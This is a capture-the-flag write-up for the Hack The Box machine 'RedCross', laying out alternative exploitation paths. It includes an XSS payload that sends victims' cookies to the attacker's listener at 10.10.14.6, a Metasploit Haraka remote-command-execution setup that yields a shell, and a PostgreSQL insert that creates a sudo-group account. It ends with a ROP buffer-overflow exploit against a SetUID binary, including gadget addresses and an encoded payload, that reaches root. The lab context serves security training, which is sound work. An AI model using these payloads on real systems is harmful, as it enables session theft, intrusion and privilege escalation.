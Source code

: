 # Alternative way to exploit RedCross

## Different ways to exploit the Web Services

Instead of exploiting the **SQL Injection vulnerability**, there are more ways to to exploit the web services on port 443.

### Cross-Site-Scripting (XSS) in Contact Form

The contact form on _intra.redcross.htb/?page=contact_ is used to request access to the intranet.
By guessing that this has to be processed by someone, we can try to abuse this functionality with a **Cross-Site-Scripting vulnerability**.  

Lets start a listener on our local IP and port 80 to get requests and send JavaScript with the form:
```
<script>document.write('<img src="http://10.10.14.6/test.gif?cookie=' + document.cookie + '" />')</script>
```

The first two fields, blocked requests and alerted, that someone is doing something nasty, but the third form field allowed the request and after a while the listener got a response back:
```
Ncat: Connection from 10.10.10.113.
Ncat: Connection from 10.10.10.113:40500.
GET /test.gif?cookie=PHPSESSID=4dcd7ecnqq39cgj492nk84p2k0;%20LANG=EN_US;%20SINCE=1612024348;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1
```

This response contains a session cookie and it tells that it comes from the domain _admin_ that is the subdomain _admin.redcross.htb_.
By replacing the current _PHPSESSID cookie_ with _"4dcd7ecnqq39cgj492nk84p2k0"_, we get logged in and have access to the admin panel.

### Exploiting Haraka on admin.redcross.htb

Instead of using the **Command Injection vulnerability** there is another way to get a shell on the box.
The feature _Network Access_ allows to whitelist IP addresses and after sending mine, it shows that it runs `iptables` in the background:
```
DEBUG: All checks passed... Executing iptables Network access granted to 10.10.14.6 Network access granted to 10.10.14.6
```

After whitelisting my own IP, another port scan with **Nmap** will show new results:
```
nmap -p- 10.10.10.113
```
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
1025/tcp open  NFS-or-IIS
5432/tcp open  postgresql
```

Enumerating the service on port 1025 with `ncat`:
```
nc -v 10.10.10.113 1025

220 redcross ESMTP Haraka 2.8.8 ready
```

It runs [Haraka](https://haraka.github.io/) version 2.8.8 which is an open source SMTP server written in Node.js.
Searching for vulnerabilities:
```
searchsploit haraka

Haraka < 2.8.9 - Remote Command Execution
```

There is also a **Metasploit module** that can be used:
```
msf6 > use exploit/linux/smtp/haraka

msf6 exploit(linux/smtp/haraka) > set LPORT 9002
msf6 exploit(linux/smtp/haraka) > set LHOST tun0

msf6 exploit(linux/smtp/haraka) > set SRVHOST 10.10.14.6
msf6 exploit(linux/smtp/haraka) > set SRVPORT 9001
msf6 exploit(linux/smtp/haraka) > set rhost 10.10.10.113
msf6 exploit(linux/smtp/haraka) > set rport 1025
msf6 exploit(linux/smtp/haraka) > set email_from tricia@redcross.htb
msf6 exploit(linux/smtp/haraka) > set email_to penelope@redcross.htb

msf6 exploit(linux/smtp/haraka) > exploit
```

After running the exploit and waiting for a while, a **Meterpreter session** starts with the privileges of _penelope_.

## Privilege Escalation

### Add user to sudo group

Instead of searching for credentials in the configuration files in _/etc_ for a high-privileged user in the **PostgreSQL database**, it is possible to create a new user and put the new user via the **PostgreSQL** in the _sudo group_.
```
psql -h 127.0.0.1 -U unixusrmgr unix
```

Creating a root user with the GID 27 which is the _sudo group_:
```
INSERT INTO passwd_table (username, passwd, gid, homedir) values ('sudouser', '$1$61vWy0S8$fDRliAv0Lnr6lf.z9qD1j1', 27, '/');
```

Switching user to _sudouser_:
```
su - sudouser
```

Now it is possible to switch user to root as the created user is in the _sudo group_:
```
sudo su
```

### Buffer Overflow of iptctl

Instead of the **PostgreSQL** ways, there is a binary in _/opt/iptctl_ with the **SetUID bit** set and vulnerable to **Buffer Overflow**.
After getting on the web panel and creating a user to SSH into the box, the source code of this can be found in _/home/public/src/iptctl.c_.

In the source code it shows that it has an interactive mode when using the _"-i"_ parameter and that is where the vulnerability is.
I will copy the binary to my local box to analyze it further.

When it gets too many characters as input in this mode, it will result in a **Segmentation Fault**:
```
./iptctl -i

Entering interactive mode
Action(allow|restrict|show): showAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
IP address: 1.2.3.4
Segmentation fault
```

Lets execute it with `gdb` and see where the buffer gets overwritten by creating a unique pattern with 64 characters:
```
pattern_create 64

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
```
```
set args -i

run

Starting program: ./iptctl -i
Entering interactive mode
Action(allow|restrict|show): showaaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
IP address: 1.2.3.4
```

The overflow happens at _"aaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa"_ and the offset of this pattern is at 30:
```
pattern offset aaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa

[+] Found at offset 30 (big-endian search)
```

To write exploit code, there is some more information needed.

Addresses of functions that can be used:
```
objdump -D -j .plt iptctl | grep \@plt
```
```
00000000004006e0 <strncpy@plt>:
00000000004006f0 <strcpy@plt>:
0000000000400700 <puts@plt>:
0000000000400710 <strlen@plt>:
0000000000400720 <printf@plt>:
0000000000400730 <fgets@plt>:
0000000000400740 <inet_pton@plt>:
0000000000400750 <fflush@plt>:
0000000000400760 <execvp@plt>:
0000000000400770 <exit@plt>:
0000000000400780 <setuid@plt>:
0000000000400790 <fork@plt>:
00000000004007a0 <strstr@plt>:
```

Getting address of _/bin/sh_ with `gdb`:
```
gef> search-pattern sh

0x40046e - 0x400470 --> "sh"
```

Getting return addresses of _rdi_ and _rsi_ with **Radare2**:
```
/R pop rdi

0x00400de3    5f    pop rdi
```
```
/R pop rsi

0x00400de1    5e    pop rsi
```

After getting all of those addresses, exploit code can be created and the Python script _redcross_bof.py_ can be found in this repository.
When running the script, it creates a payload, that has to be passed to the binary:
```
python redcross_bof.py > payload.txt
```

Bringing the payload to the box:
```
base64 -w 0 payload.txt

echo c2hvd0FBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQeMNQAAAAAAAAAAAAAAAAACAB0AAAAAAAOMNQAAAAAAAbgRAAAAAAADhDUAAAAAAAAAAAAAAAAAAAAAAAAAAAABgB0AAAAAAAAoxLjIuMy40Cg== > payload.b64

base64 -d payload.b64 > payload.txt
```

Executing _iptctl_ with the payload:
```
(cat /dev/shm/payload.txt; cat) | ./iptctl -i
```

There will be no output, but system commands work and `id` shows that we became root!
